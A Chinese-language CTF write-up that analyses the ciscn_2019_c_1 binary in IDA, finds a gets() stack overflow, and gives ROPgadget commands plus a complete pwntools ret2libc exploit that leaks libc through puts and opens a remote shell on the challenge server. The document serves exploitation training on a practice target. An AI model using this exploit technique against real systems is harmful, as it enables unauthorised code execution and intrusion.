






- IDA分析main：
    
    打印了一些字符串之后进入了begin()

- 进入begin函数：
    
    也是打印了一些字符串，继续分析main函数之后可知后续进行了简单了if判断，如果用户选择1.Encrypt就会进入encrypt函数

- 进入encrypt函数：
    
    其实看到gets就直到漏洞的触发点就是这里了，后面的加密逻辑其实都没有必要理会，并且ida中找不到有关system、sh等内容，由此可判断该题目应该是ret2libc类型

- 通过参数s的栈空间：
    
    由此可得知溢出范围就是0x58

- 获取pop_rdi_addr和任意ret_addr：
    二者分别用于传参和栈对齐

    ```bash
    ROPgadget --binary ./ciscn_2019_c_1 | grep "ret"   # ret_addr
    ROPgadget --binary ./ciscn_2019_c_1 | grep "pop rdi"  # pop_rdi_ret
    ```
    
    基本的信息就收集完毕了，然后只需要找到基地址，算出system、sh绝对地址，即可shell

- EXP脚本：
    ```python
    from pwn import *
    import LibcSearcher

    p = remote("node5.buuoj.cn", 26279)
    elf = ELF("./ciscn_2019_c_1")


    offset = 0x58
    pop_rdi_addr = 0x400c83
    ret_addr = 0x4006b9
    puts_plt_addr = elf.plt['puts']     # 通过puts打印出puts在got表中保存的绝对地址
    puts_got_addr = elf.got['puts']     # 保存在got表中的puts的绝对地址
    encrypt_addr = elf.sym['encrypt']   # encrypt函数起始地址，用于第一次ROP后返回程序继续执行
    print("encrypt_addr => ", encrypt_addr)

    payload = b"A" * offset + p64(pop_rdi_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(encrypt_addr)

    p.sendline(b"1")
    p.sendline(payload)

    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
    print("puts_addr => ", puts_addr)

    libc = LibcSearcher.LibcSearcher("puts", puts_addr & 0xfff)   # 根据puts地址的低12位查找对应libc版本
    libc_base = puts_addr - libc.dump("puts")
    system_addr = libc_base + libc.dump("system")
    bin_sh_addr = libc_base + libc.dump("str_bin_sh") 


    payload2 = b"A" * offset + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(ret_addr) + p64(system_addr)
    p.sendline(payload2)

    p.interactive()
    ```
    